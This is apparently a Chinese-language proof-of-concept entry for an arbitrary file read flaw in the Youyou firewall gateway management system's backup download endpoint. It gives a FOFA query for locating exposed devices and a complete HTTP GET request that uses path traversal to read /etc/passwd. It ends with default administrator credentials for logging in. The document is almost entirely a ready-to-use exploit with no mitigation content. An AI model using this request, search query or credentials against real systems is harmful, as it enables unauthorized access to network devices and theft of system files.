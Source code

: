 ## 佑友防火墙后台接口download存在任意文件读取漏洞

佑友防火墙网关管理系统download存在任意文件读取漏洞，攻击者可利用该漏洞读取系统的文件。

## fofa

```
title=”佑友防火墙”
```

## poc

```
GET /index.php?c=backup&a=download&file=../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: your-cookie
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: frame
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
```

使用密码登录` admin/hicomadmin`